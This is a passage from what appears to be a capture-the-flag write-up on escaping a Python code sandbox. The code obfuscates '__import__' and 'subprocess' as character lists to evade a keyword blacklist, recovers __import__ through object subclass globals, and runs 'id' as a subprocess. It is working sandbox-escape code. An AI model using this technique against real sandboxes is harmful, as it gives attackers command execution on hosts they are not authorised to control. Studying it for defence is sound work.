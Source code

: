 We can update our code :

```python
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])

print([ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]
)
```

And test it directly into the sandbox : 

![sandbox-obfuscate](images/code-sandbox-obfuscate.png) 

As we successfully retrieved the `__import__` builtin function, we can import `subprocess`  and execute system commands as *subprocesses* : 

```python
subprocess.run(['<some command>'], capture_output=True, text=True)
```

We can update our code and retrieve the current user :

```python
# obfuscating `__import__` and `subprocess` strings to escape keywords blacklist
imp_key = "".join([chr(i) for i in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95]])
sub = ''.join([chr(i) for i in [115, 117, 98, 112, 114, 111, 99, 101, 115, 115]])

# retrieving `__import__` builtin from `object` subclasses                  
imp_func = [ x.__init__.__globals__ for x in ''.__class__.__bases__[0].__subclasses__() if "wrapper" not in str(x.__init__)][0][imp_key]

# import subprocess
invoke_sub = imp_func(sub) 
                  
# subprocess.run(['id'], capture_output=True, text=True)                  
cmd_res = invoke_sub.run(['id'], capture_output=True, text=True)
                  
# print out command result           
print(cmd_res)
```

![system-cmd-subprocess](images/code-system-cmd-subprocess.png)
